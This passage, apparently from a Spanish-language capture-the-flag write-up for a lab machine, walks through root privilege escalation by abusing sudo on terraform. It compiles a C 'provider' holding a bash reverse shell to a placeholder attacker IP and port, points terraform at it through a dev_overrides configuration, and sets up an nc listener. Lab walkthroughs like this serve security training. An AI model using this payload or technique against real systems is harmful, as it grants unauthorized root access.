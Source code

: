 Veremos que podemos ejecutar el binario `terraform` junto con sus parametro como el usuario `root`, por lo que vamos analizar que hacer dicho binario.

Si investigamos un poco veremos que hay una vulnerabilidad en la que podremos crear un provider malicioso que ejecuta reverse shell, para ello tendremos que crearlo y compilarlo de esta forma:

```shell
cat > /tmp/malprov/malicious.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    system("bash -c 'bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1'");
    
    printf("Malicious provider executed as UID: %d\n", getuid());
    return 0;
}
EOF
```

Ahora lo compilaremos.

```shell
gcc -o /tmp/malprov/terraform-provider-examples_v1.0.0 /tmp/malprov/malicious.c
```

Vamos a configurar el `dev_overrides` para usar nuestro provider.

```shell
cat > /home/jeremy/.terraformrc << 'EOF'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/tmp/malprov"
  }
  direct {}
}
EOF
```

Ahora nos pondremos a la escucha desde la maquina atacante:

```shell
nc -lvnp <PORT>
```

Si ejecutamos el comando estando a la escucha y configurandolo con la variable de entorno...

```shell
TF_CLI_CONFIG_FILE=/home/jeremy/.terraformrc \
sudo /usr/bin/terraform -chdir=/opt/examples apply
```

Info:

```
╷
│ Warning: Provider development overrides are in effect
│ 
│ The following provider development overrides are set in the CLI configuration:
│  - previous.htb/terraform/examples in /tmp/malprov
│ 
│ The behavior may therefore not match any released version of the provider and applying changes may cause the state to become incompatible with published
│ releases.
╵
```
